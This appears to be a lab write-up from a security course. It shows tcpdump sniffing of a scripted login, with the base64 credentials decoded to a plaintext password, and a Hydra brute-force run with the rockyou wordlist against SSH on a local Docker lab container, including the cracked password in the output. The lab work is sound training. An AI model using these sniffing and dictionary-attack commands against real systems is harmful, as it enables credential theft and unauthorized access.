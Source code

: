 # Attack is the best defense


## task 0. ARP spoofing and sniffing unencrypted traffic 

#### terminal 0
``` bash
-$ sudo tcpdump -i enp0s3 -w dump.pcap 'not port 22'
```

On the other terminal, run the `user_authenticating_into_server` script

#### terminal 1
```bash
-$ ./user_authenticating_into_server
```

Once the script is done, you can manually exit (Ctrl+C) on the terminal 0.

``` bash
-$ tcpdump -A -X -r dump.pcap > file.txt
```

```
-$ grep "=ZB" file.txt
```
```
    =ZB.....
    =ZB.....334 UGFzc3dvcmQ6
    ...N=ZB.
    ....=ZB.bXlwYXNzd29yZDk4OTgh
```
the password is `bXlwYXNzd29yZDk4OTgh` base64
and convert to base64 to text `mypassword9898!`

## task 1. Dictionary Attack

You would need to have docker installed on your Ubuntu:
``` bash
-$ sudo apt update
-$ sudo apt install docker.io
```
and install hydra to:
``` bash
-$ sudo apt install hydra
```
and login to docker and start

``` bash
-$ docker login
-$ systemctl start docker
```

and now pull and run the Docker image sylvainkalache/264–1:

``` bash
-$ docker run -p 2222:22 -d -ti sylvainkalache/264–1
```
I would be making use of the [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) password list.
``` bash
-$ sudo hydra -l sylvain -P /vagrant/rockyou.txt ssh://127.0.0.1:2222 -t 4
```
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-21 09:09:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 12671 login tries (l:1/p:12671), ~3168 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-21 09:09:23
```
and the password is found `password123`
